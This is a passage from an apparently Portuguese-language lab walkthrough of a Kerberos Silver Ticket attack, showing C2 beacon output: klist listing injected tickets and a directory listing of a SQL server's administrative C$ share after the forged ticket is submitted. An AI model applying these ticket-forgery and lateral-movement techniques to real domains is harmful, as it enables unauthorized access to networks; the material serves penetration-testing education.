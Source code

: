 Utilizando a ferramenta klist, podemos confirmar que os tickets injetados permanecem armazenados em cache.

``` terminal
beacon> shell klist
[*] Tasked beacon to run: klist
[+] host called home, sent: 36 bytes
[+] received output:

Current LogonId is 0:0x51f1d

#0>	Client: jbolsonaro @ HNR.LOCAL
	Server: krbtgt/HNR.LOCAL @ HNR.LOCAL
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 3/2/2020 13:56:50 (local)
	End Time:   3/2/2020 23:41:06 (local)
	Renew Time: 3/8/2020 18:11:06 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x2 -> DELEGATION 
	Kdc Called: GOKU.hnr.local

#1>	Client: jbolsonaro @ HNR.LOCAL
	Server: host/sql.hnr.local @ HNR.LOCAL
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
	Start Time: 3/1/2020 18:11:06 (local)
	End Time:   3/2/2020 4:11:06 (local)
	Renew Time: 3/8/2020 18:11:06 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: GOKU.hnr.local
```

Como pode-se notar, após submeter o Silver Ticket na sessão para o serviço [CIFS](https://pt.wikipedia.org/wiki/Server_Message_Block), o acesso ao compartilhamento foi concedido, demonstrando a perfeita execução do ataque.

``` terminal
beacon> shell dir \\SQL.hnr.local\c$
[*] Tasked beacon to run: dir \\SQL.hnr.local\c$
[+] host called home, sent: 53 bytes
[+] received output:
 Volume in drive \\SQL.hnr.local\c$ has no label.
 Volume Serial Number is 04AB-790B

 Directory of \\SQL.hnr.local\c$

01/03/2020  11:09    <DIR>          HNRDOCS
15/09/2018  04:19    <DIR>          PerfLogs
12/02/2020  17:07    <DIR>          Program Files
12/02/2020  16:35    <DIR>          Program Files (x86)
12/02/2020  15:34    <DIR>          SQLServer2017Media
12/02/2020  15:53    <DIR>          Users
01/03/2020  18:11    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  47.061.692.416 bytes free
```
 